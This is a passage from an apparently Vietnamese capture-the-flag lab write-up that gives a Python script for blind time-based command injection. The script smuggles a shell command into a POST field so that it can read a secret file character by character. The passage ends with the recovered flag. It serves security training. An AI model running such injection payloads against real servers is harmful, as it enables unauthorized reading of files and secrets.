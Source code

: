 - Sau khi tìm được tên file thì ta thực hiện brute force từng kí tự của file đó:

    ```py
    import requests

    URL = 'http://cmdi.cyberjutsu-lab.tech:3007/'

    charset = './0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ\_abcdefghijklmnopqrstuvwxyz{}'

    for i in range(100):
        for c in charset:
            #đây là payload exploit
            inject = 'z /var/www/html/index.php; if [ `cat /aef15696cd_secret.txt | tr -d \'\\n\' | cut -c {index}` = \'{bruteforce}\' ];then sleep 2;else echo sleep 0;fi #'.format(bruteforce = c, index = i)
            # tui dùng thư viện 'requests' trong python, để gửi requests đi. Ở đay ta dùng method POST
            # hai tham số POST sẽ được dặt vòa một tham số thứ 2
            r = requests.post(URL, {'command':'backup', 'target':inject})

            # print(r.elapsed)
            # đây là khoảng thời gian phản hổi của rrequest và respond
            # r.elapsed.total_seconds() 
            # đây à thời gian bản hồi dưới dạng số thực

            if r.elapsed.total_seconds() > 2:
                print(end = c)
                break

    # CBJS{Dr_Str4nge_W1Ll_pR0ud_oF_y0U_5be2459fbc44d1c2331cb840acd15fd0}
    ```

    ![alt text](IMG/7/image-1.png)

